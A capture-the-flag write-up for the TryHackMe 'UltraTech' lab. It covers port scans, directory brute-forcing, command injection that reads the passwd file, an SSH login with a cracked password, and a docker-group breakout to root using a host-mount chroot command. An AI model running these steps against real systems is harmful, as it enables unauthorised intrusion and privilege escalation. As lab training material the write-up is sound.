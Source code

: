 # UltraTech

**Room Link:** [https://tryhackme.com/room/ultratech1](https://tryhackme.com/room/ultratech1)



## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (501).png" alt=""><figcaption></figcaption></figure>



## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (502).png" alt=""><figcaption></figcaption></figure>

## TCP/8081 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM:8081 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (510).png" alt=""><figcaption></figcaption></figure>



## TCP/31331 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM:31331 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (509).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (503).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (504).png" alt=""><figcaption></figcaption></figure>

Command Injection Payload: [https://github.com/payloadbox/command-injection-payload-list](https://github.com/payloadbox/command-injection-payload-list)



<figure><img src="../../.gitbook/assets/image (507).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (508).png" alt=""><figcaption></figcaption></figure>

We can see two intresting users in passwd file

<figure><img src="../../.gitbook/assets/image (511).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (512).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (513).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (514).png" alt=""><figcaption></figcaption></figure>





## TCP/22 - SSH

**Kali**

```
ssh r00t@$VICTIM
Password: n100906
```



## Privilege Escalation

**Exploit:** [https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation)

We can see our user is in the docker group so we were able to break out and become a regular user.

**Victim**

```
groups
```



<figure><img src="../../.gitbook/assets/image (518).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
find / -name docker.sock 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (515).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
docker images
```

<figure><img src="../../.gitbook/assets/image (516).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
docker run -it -v /:/host/ bash chroot /host/ bash
```

<figure><img src="../../.gitbook/assets/image (517).png" alt=""><figcaption></figcaption></figure>



